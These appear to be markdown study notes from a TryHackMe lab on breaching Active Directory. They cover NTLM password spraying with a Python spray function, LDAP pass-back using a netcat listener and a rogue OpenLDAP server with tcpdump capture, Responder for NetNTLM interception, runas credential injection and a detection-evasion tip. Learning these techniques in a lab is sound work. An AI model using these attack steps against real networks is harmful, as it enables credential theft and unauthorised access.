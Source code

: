 # Breaching Active Directory

Techniques for acquiring Active Directory credentials and enumerating Active Directory

## Techniques

* Techniques for breaching AD
  * NTLM Authenticated Services
  * LDAP Bind Credentials
  * Authentication Relays
  * Microsoft Deployment Toolkit
  * Configuration Files
  * Phishing
* OSINT services for finding AD credentials
  * <https://stackoverflow.com/>
  * <https://github.com/>
  * Past breach credentials:
    * <https://haveibeenpwned.com/>
    * <https://www.dehashed.com/>

### NTLM and NetNTLM

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD

* HetHTLM services exposed to internet:
  * On-premises Exchange/Outlook OWA
  * RDP
  * AD integrated VPN endpoints
  * Internet facing web apps

### NTLM Brute Forcing

* Password spray script example:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

* ntlm_passwordspray.py Usage: `python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>`
  * `<userfile>` - Textfile containing our usernames - "usernames.txt"
  * `<fqdn>` - Fully qualified domain name associated with the organisation that we are attacking - "targetme.com"
  * `<password>` - The password we want to use for our spraying attack - "Changeme123"
  * `<attackurl>` - The URL of the application that supports Windows Authentication - "http://ntlmauth.targetme.com"

### LDAP

Lightweight Directory Access Protocol (LDAP) authentication is similar to NTLM authentication, but directly verifies credentials via a pair of AD credentials

* Attempt to recover the AD credentials used by the service to gain authenticated access to AD
* Common LDAP services:
  * Gitlab
  * Jenkins
  * Custom-developed web applications
  * Printers
  * VPNs

### LDAP Pass-back Attacks

* Redirecting the LDAP server request in order to intercept the LDAP credentials
* Use netcat listener while sending LDAP request: `nc -lvp 389`
* Hosting a Rogue LDAP Server
  * Install OpenLDAP: `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
  * Configure server: `sudo dpkg-reconfigure -p low slapd`
  * Create olcSaslSecProps.ldif file with:

```bash
    #olcSaslSecProps.ldif
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
```

* Patch LDAP server: `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
* Test if configuration has been applied: `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`
* Run tcpdump to grab credentials: `sudo tcpdump -SX -i breachad tcp port 389`
* Run the test LDAP credentials in the GUI

### NetNTLM authentication used by SMB

The Server Message Block (SMB) protocol allows clients (like workstations) to communicate with a server (like a file share). In networks that use Microsoft AD, SMB governs everything from inter-network file-sharing to remote administration. Older versions of SMB have vulnerabilities.

Exploits for NetNTLM authentication with SMB:

* Intercept NTLM challenges and crack offline, though this is much slower than cracking NTLM hashes directly
* Man in the middle attack to intercept and relay the aythentication to gain an authenticated session and access to target

* Responder to attempt to intercept the NetNTLM
* LLMNR, NBT-NS, and WPAD
* Resonder listens to these requests and starts host servers like SMB, HTTP, SQL to capture and force authentication

To start responder: `sudo responder -I tun0`

systemd-resolve --interface breachad --set-dns 10.200.20.101 --set-domain za.tryhackme.com

### Microsoft Deployment Toolkit

MDT and SCCM

Usually, MDT is integrated with Microsoft's System Center Configuration Manager (SCCM), which manages all updates for all Microsoft applications, services, and operating systems

Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection. MDT can be used to create, manage, and host PXE boot images.

<https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/>

### Configuration Files

Web application config files
Service configuration files
Registry keys
Centrally deployed applications




There are several open source resources available for learning how to breach Active Directory. Some of the most popular resources include:

ADLab: ADLab is an open source Active Directory testing lab that provides a safe and isolated environment for testing and learning about Active Directory security.

Active Directory Attack Toolkit (ADAT): ADAT is an open source toolkit for penetration testing Active Directory environments.

BloodHound: BloodHound is an open source tool for visualizing the relationships and permissions within an Active Directory environment.

Mimikatz: Mimikatz is an open source tool for dumping and analyzing Windows credentials, including those stored in Active Directory.

Rubeus: Rubeus is an open source tool for performing various Active Directory-related attacks, including Kerberos abuse.

## Resources

* [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference :: Cas van Cooten](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
)
* 

https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff




https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-methodology

https://cheatsheet.haax.fr/open-source-intelligence-osint/tools-and-methodology/methodology/

https://wadcoms.github.io/

## Credential Injection

* Credential Injection Using runas.exe:

```cmd
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

* runas.exe usage:
  * `/netonly` = do not authenticate against domain controller
  * `/usaer` = domain credentials using FQDN
  * `cmd.exe` = program to execute once credentials are injected


* `dir \\za.tryhackme.com\SYSVOL` v `dir \\<DC IP>\SYSVOL`
  * `dir \\za.tryhackme.com\SYSVOL` attempts Kerberos authentication
  * `dir \\<DC IP>\SYSVOL` attempts NTLM authentication
    * Forcing NTLM helps avoid detection



* Resources: using NTLM authentication to authenticate to web applications: https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/

https://www.hackingarticles.in/impacket-guide-smb-msrpc/
https://github.com/fortra/impacket 
